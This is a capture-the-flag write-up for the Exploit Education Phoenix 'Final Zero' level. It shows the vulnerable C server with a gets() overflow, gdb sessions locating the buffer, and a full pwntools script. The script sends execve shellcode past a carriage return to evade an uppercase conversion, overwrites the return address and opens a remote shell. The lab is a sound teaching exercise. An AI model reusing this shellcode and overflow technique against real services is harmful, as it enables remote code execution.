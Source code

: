 ```yaml
---
title: "Final Zero"
permalink: "exploit-education/phoenix/:title"
layout: post
---
```



```c
#include <ctype.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *s);

/*
 * Read the username in from the network
 */

char *get_username() {
  char buffer[512];
  char *q;
  int i;

  memset(buffer, 0, sizeof(buffer));
  gets(buffer);

  /* Strip off trailing new line characters */
  q = strchr(buffer, '\n');
  if (q) *q = 0;
  q = strchr(buffer, '\r');
  if (q) *q = 0;

  /* Convert to lower case */
  for (i = 0; i < strlen(buffer); i++) {
    buffer[i] = toupper(buffer[i]);
  }

  /* Duplicate the string and return it */
  return strdup(buffer);
}

int main(int argc, char **argv, char **envp) {
  char *username;

  printf("%s\n", BANNER);
  fflush(stdout);

  username = get_username();
  printf("No such user %s\n", username);
}
```

This level has a classic stack buffer overflow through **gets** function, so we inject our shellcode in the buffer then overflow the buffer and jump to our shellcode address, easy right :)

The problem here is the for loop that converts every character in our buffer to uppercase using **toupper** function, so our shellcode will be ruined.

If we look before the for loop we can see that the code terminates the buffer at any newline **\n** or carriage return **\r**.

If we enter a newline our input will terminate anyway so nothing to do here but the carriage return **\r** doesn't terminate the input, we can see the man page for **get**:

```
DESCRIPTION
       Never use this function.
       gets()  reads a line from stdin into the buffer pointed to by s until either a terminating newline or EOF, which it replaces with a null byte ('\0').
```

As we see **gets** will terminate the input on **'\n'** and **'\0'** only, great.

So the exploit here is to place our shellcode after **\r** with will be replaced by **'\0'** so that the for loop can't reach our shellcode (**strlen** stops at '\0').

```
$ gdb -q /opt/phoenix/amd64/final-zero 
Reading symbols from /opt/phoenix/amd64/final-zero...(no debugging symbols found)...done.

gef➤  disassemble get_username 
Dump of assembler code for function get_username:
.....
   0x00000000004007f2 <+37>:	lea    rax,[rbp-0x220]
   0x00000000004007f9 <+44>:	mov    rdi,rax
   0x00000000004007fc <+47>:	call   0x4005d0 <gets@plt>
   0x0000000000400801 <+52>:	lea    rax,[rbp-0x220]
.....

gef➤  b *0x0000000000400801
Breakpoint 1 at 0x400801

gef➤  r
Starting program: /opt/phoenix/amd64/final-zero 
Welcome to phoenix/final-zero, brought to you by https://exploit.education
AAAAAAAA
Breakpoint 1, 0x0000000000400801 in get_username ()

gef➤  x/xg $rbp-0x220
0x7fffffffe410:	0x4141414141414141
```

The buffer is at offset 0x220 = 544 bytes and it's at address **0x7fffffffe410**, great (not really).

If you tried to overwrite **RIP** with this address the exploit won't work so we should investigate more.

We need to debug the process we are sending the payload to instead of debugging locally, so we will open two terminals one for the connection and another for gdb.

```
# First Terminal:

$ nc localhost 64003
Welcome to phoenix/final-zero, brought to you by https://exploit.education
```

```
# Second Terminal:

$ ps aux | grep final
phoenix+ 14770  0.5  0.0    752     4 ?        Ss   18:55   0:00 /opt/phoenix/amd64/final-zero
user     14772  0.0  0.0   5136   984 pts/2    S+   18:55   0:00 grep final

$ sudo gdb -p 14770
Attaching to process 14770
Reading symbols from target:/opt/phoenix/amd64/final-zero...(no debugging symbols found)...done.

gef➤  b *0x0000000000400801
Breakpoint 1 at 0x400801

gef➤  c
Continuing.
```

Now enter some input in the first terminal like "AAAAAAAA".

```
Breakpoint 1, 0x0000000000400801 in get_username ()

gef➤  x/xg $rbp-0x220
0x7fffffffea60: 0x4141414141414141
```

As you can see the address of buffer if very far from our first address, offset between them = 0x7fffffffea60 - 0x7fffffffe410 = 1616 bytes.

So we will replace our **RIP** with an address close enough to **0x7fffffffea60** and we are done.

# Solution:

```python
# solve.py

from pwn import *

shellcode = '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'

con = remote('localhost', 64003)
print(con.recvline())					# receive the greeting message

buff = ""
buff += 'A'*7 + '\r'					# JUNK
buff += '\x90'*200					# some NOPS
buff += shellcode					# our shellcode
buff += 'A' * (544 - len(buff))				# JUNK
buff += 'BBBBBBBB'					# RBP value
buff += p64(0x7fffffffea90)				# RIP value

con.send(buff)						# send the payload
con.interactive()					# interactive shell
```

```
$ python solve.py 
[+] Opening connection to localhost on port 64003: Done
Welcome to phoenix/final-zero, brought to you by https://exploit.education
[*] Switching to interactive mode

$ whoami
phoenix-amd64-final-zero
```